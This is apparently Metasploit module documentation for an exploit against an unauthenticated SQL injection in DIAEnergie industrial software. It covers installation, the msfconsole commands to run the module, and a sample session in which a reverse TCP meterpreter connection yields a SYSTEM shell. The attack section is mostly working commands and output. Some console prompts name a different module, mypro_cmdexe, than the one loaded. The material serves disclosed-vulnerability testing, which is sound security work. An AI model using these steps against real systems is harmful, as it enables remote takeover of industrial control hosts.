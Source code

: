 ## Vulnerable Application

**Vulnerability Description**

This module exploits a SQL injection vulnerability in DIAEnergie <= v8.28.0 (CVE-2024-4548).

An unauthenticated remote attacker can exploit this vulnerability to inject an arbitrary script through a SQL injection vulnerability, which
can then be executed in the context of `NT AUTHORITY\SYSTEM`. The vulnerability is within the CEBC service, which listens by default on TCP
port 928. It accepts various user-controlled data, including `RecalculateHDMWYC` messages, which are insufficiently validated before using
them as part of a SQL query.

Versions <= 1.10.1.8610 are affected. Tenable published [TRA-2024-13](https://www.tenable.com/security/research/tra-2024-13) to cover the
security issues.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor]
(https://downloadcenter.deltaww.com/downloadCenterCounter.aspx?DID=39969&DocPath=1&hl=en-US).
For the product to work correctly, SQL Server (e.g., SQL Server Express) needs to be installed.

**Successfully tested on**

- DIAEnergie v1.10 on Windows 10 22H2
- DIAEnergie v1.9 on Windows 10 22H2

## Verification Steps

1. Install the SQL Server (Express)
2. Install DIAEnergie
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/scada/diaenergie_sqli
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/scada/mypro_cmdexe) > set RHOSTS <IP>
msf6 exploit(windows/scada/mypro_cmdexe) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Scenarios

Running the exploit against DIAEnergie v1.10 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf6 exploit(windows/scada/mypro_cmdexe) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] 192.168.1.245:928 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.245:928 - The target appears to be vulnerable.
[*] 192.168.1.245:928 - Sending SQL injection...
[*] 192.168.1.245:928 - Triggering script execution...
[*] 192.168.1.245:928 - Cleaning up database...
[+] 192.168.1.245:928 - Script successfully injected, check thy shell.
[*] Sending stage (201798 bytes) to 192.168.1.245
[*] Meterpreter session 1 opened (192.168.1.241:4444 -> 192.168.1.245:50605) at 2024-07-29 23:59:53 -0400

meterpreter > shell
Process 6392 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4529]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```
